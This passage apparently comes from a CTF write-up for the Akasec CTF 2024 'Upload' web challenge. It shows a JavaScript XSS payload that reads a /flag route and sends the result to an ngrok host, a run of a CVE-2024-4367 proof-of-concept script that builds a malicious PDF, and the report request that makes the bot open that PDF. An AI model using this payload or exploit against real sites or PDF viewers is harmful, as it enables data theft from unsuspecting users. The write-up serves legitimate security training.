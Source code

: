> Note: The `Access-Control-Allow-Origin` response header is needed, otherwise the bot can't sends request to us because of the SOP (Same Origin Policy).

Next, modify the payload to get the flag!

```javascript
fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`<NGROK_URL_HERE>?flag=${flag}`);
  })
```

In this payload, the bot will first get the flag at route `/flag`, then exfiltrate the flag to us.

Let's do this!

```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:51:51(HKT)]
└> python3 CVE-2024-4367.py 'fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`https://fa9e-{REDACTED}.ngrok-free.app/?flag=${flag}`);
  })'
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

Upload the `poc.pdf`, jot down the uploaded filename, and send a POST request to `/report` and let the bot trigger our XSS payload:

```http
POST /report HTTP/1.1
Host: 172.206.89.197:9000
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

url=http://127.0.0.1:5000/view/file-1718000341478.pdf
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Akasec-CTF-2024/images/Pasted%20image%2020240610142045.png)
